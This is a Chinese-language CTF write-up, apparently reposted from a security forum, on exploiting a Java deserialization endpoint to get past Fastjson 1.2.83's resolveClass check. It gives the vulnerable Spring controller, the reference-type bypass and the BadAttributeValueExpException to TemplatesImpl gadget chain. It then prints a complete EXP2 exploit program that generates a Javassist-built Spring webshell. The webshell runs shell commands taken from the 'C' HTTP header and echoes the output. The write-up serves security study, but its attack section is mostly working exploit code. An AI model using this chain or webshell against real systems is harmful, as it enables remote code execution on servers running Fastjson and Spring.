



# 分析探究Java原生链反序列化绕过高版本fastjson打Spring马-先知社区

> **来源**: https://xz.aliyun.com/news/16045  
> **文章ID**: 16045

---

## Fastjson 1.2.83 resolveClass绕过

主要漏洞代码如下

```
package com.polar.ctf.controller;  

import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.JSONArray;  
import com.alibaba.fastjson.JSONObject;  
import java.io.ByteArrayInputStream;  
import java.io.InputStream;  
import java.io.ObjectInputStream;  
import java.util.Base64;  
import org.springframework.stereotype.Controller;  
import org.springframework.web.bind.annotation.RequestMapping;  
import org.springframework.web.bind.annotation.ResponseBody;  

@Controller  
/* loaded from: ReadController.class */  
public class ReadController {  
    @RequestMapping({"/read"})  
    @ResponseBody  
    public String getUser(String data) throws Exception {  
        if (data == null) {  
            throw new IllegalArgumentException("Data cannot be null");  
        }        byte[] b = Base64.getDecoder().decode(data);  
        if (b == null) {  
            throw new IllegalArgumentException("Decoded data cannot be null");  
        }        InputStream inputStream = new ByteArrayInputStream(b);  
        if (inputStream == null) {  
            throw new IllegalArgumentException("Input stream cannot be null");  
        }        Object obj = new ObjectInputStream(inputStream).readObject();  
        JSONArray dataArray = new JSONArray();  
        JSONObject item = new JSONObject();  
        item.put("code", 200);  
        item.put("status", "success");  
        item.put("obj", JSON.toJSONString(obj));  
        dataArray.add(item);  
        return dataArray.toJSONString();  
    }}

```

源码中有反序列化漏洞，我们需要找到依赖打反序列化链  
pom依赖

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.7.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>

    <groupId>com.polar.ctf</groupId>
    <artifactId>PolarCTF_ezJson</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.83</version>
        </dependency>

    </dependencies>
    <build>
        <finalName>ezJson</finalName>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>

```

看一下lib包有jackson和fastjson依赖



### 1.2.83 fastjson绕过resolveClass

FastJson从1.2.49开始，我们的JSONArray以及JSONObject方法开始真正有了自己的readObject方法，同时在`SecureObjectInputStream`类当中重写了`resolveClass`,通过调用了`checkAutoType`方法做类的检查

由于是高版本1.2.83 fastjson需要结合其特性绕过resolveClass 方法，才能反序列化执行恶意类

通过调试发现某些类型不会调用 resolveClass 方法，这些类型如下：

1. NULL
2. REFERENCE 引用类型
3. STRING
4. LONGSTRING
5. EXCEPTION

因此只要将恶意序列化数据设置为上述的类型，就可以绕过 resolveClass 函数，这几种类型中，满足利用的只有 Reference 引用类型。

当我们向 List、Set、Map 类型中多次添加同样的对象，就可以构造出引用类型，例如：

```
ArrayList<Object> arrayList = new ArrayList<>();
arrayList.add(templates);
arrayList.add(templates);

```

这里不安全的原因就是利用了两次readObject方法，所以我们可以恢复对象进行两次恢复，这样就可以绕过resolveClass的检测。

```
ObjectInputStream -> readObject -> SecureObjectInputStream -> readObject -> resolveClass

```

### 原生反序列化打

而要打原生链子我们要找到一个能够readObject的类，调用toString方法，然后调用toJSONString方法，再调用getter，实现反序列化利用。  
利用链：

```
BadAttributeValueExpException#readObjct -> JSONArray#toString -> JSONArray#toJSONString -> getter

```



### payload缩短Spring回显马

由于不出网且无回显，我们要在get传参打高版本fastjson链我们还需要用javassit来缩短恶意类的长度，我们用http header段来传参命令回显

使用了 Javassist 库来生成一个动态生成的Java类，该类包含一个构造函数，在构造函数中执行了一个特定的操作。下面我将详细解释这段代码的作用及其各个部分。

```
ClassPool classPool = ClassPool.getDefault();  
CtClass clazz = classPool.makeClass("A");
```

获取默认的类池，ClassPool 是Javassist的一个类，它管理着生成的类和字节码。  
makeClass("A") 创建一个新的类，类名为 "A"。CtClass 是Javassist中的类对象，它代表一个Java类，可以用来修改类的字节码。

```
if ((clazz.getDeclaredConstructors()).length != 0) {  
    clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);  
}
```

获取类的所有构造函数。并检查是否有构造函数。  
如果存在构造函数，clazz.removeConstructor() 移除第一个构造函数。该操作是确保不会有默认构造函数。

```
clazz.addConstructor(CtNewConstructor.make("public B() throws Exception { ... }", clazz));
```

CtNewConstructor.make() 用来创建一个新的构造函数。这里传入的构造函数内容是：

```
public B() throws Exception {
    org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
    javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
    javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
    String[] cmd = new String[]{"sh", "-c", httprequest.getHeader("C")};
    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
    httpresponse.getWriter().write(new String(result));
    httpresponse.getWriter().flush();
    httpresponse.getWriter().close();
}
```

该构造函数获取当前请求的RequestAttributes（Spring框架中的类，表示当前请求的上下文）。  
从RequestAttributes中获取HttpServletRequest和HttpServletResponse对象。  
然后从HTTP请求的头部获取一个名为 C 的值，该值作为命令行参数传递给一个sh命令（Linux shell）。  
使用ProcessBuilder执行这个命令，将命令的输出结果读取出来，并通过HttpServletResponse的Writer将结果返回给客户端。

```
clazz.getClassFile().setMajorVersion(50);
```

设置类文件的Java版本为Java 6（major version 50对应于JDK 6）。这确保了生成的类文件能够在Java 6及以上版本的JVM中运行。

```
CtClass superClass = classPool.get(AbstractTranslet.class.getName());  
clazz.setSuperclass(superClass);
```

获取 AbstractTranslet 类的 CtClass 对象。 将当前生成的类 A 的父类设置为 AbstractTranslet

```
import com.alibaba.fastjson.JSONArray;  
import javax.management.BadAttributeValueExpException;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.util.Base64;  
import java.util.HashMap;  

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import javassist.*;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  


public class EXP2 {  
    public EXP2() throws NotFoundException, CannotCompileException, IOException {  
    }  
    public static void setValue(Object obj, String name, Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(name);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  

    public static CtClass genPayload() throws NotFoundException, CannotCompileException, IOException {  
        ClassPool classPool = ClassPool.getDefault();  
        CtClass clazz = classPool.makeClass("A");  
        if ((clazz.getDeclaredConstructors()).length != 0) {  
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);  
        }        clazz.addConstructor(CtNewConstructor.make("public B() throws Exception {\n" +  
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +  
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +  
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +  
                "                String[] cmd =  new String[]{\"sh\", \"-c\", httprequest.getHeader(\"C\")};\n" +  
                "                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +  
                "                httpresponse.getWriter().write(new String(result));\n" +  
                "                httpresponse.getWriter().flush();\n" +  
                "                httpresponse.getWriter().close();\n" +  
                "        }", clazz));  


        // 兼容低版本jdk  
        clazz.getClassFile().setMajorVersion(50);  
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());  
        clazz.setSuperclass(superClass);  
        return clazz;  
    }  
        public static void main(String[] args) throws Exception{  


        TemplatesImpl templates = TemplatesImpl.class.newInstance();  
        setValue(templates, "_bytecodes", new byte[][]{genPayload().toBytecode()});  
        setValue(templates, "_name", "xxx");  
        setValue(templates, "_tfactory", null);  

        JSONArray jsonArray = new JSONArray();  
        jsonArray.add(templates);  

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);  
        setValue(bd,"val",jsonArray);  

        HashMap hashMap = new HashMap();  
        hashMap.put(templates,bd);  
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(hashMap);  
        byte[] bytes = byteArrayOutputStream.toByteArray();  
       System.out.println(Base64.getEncoder().encodeToString(bytes));  


    }}

```

成功打通回显


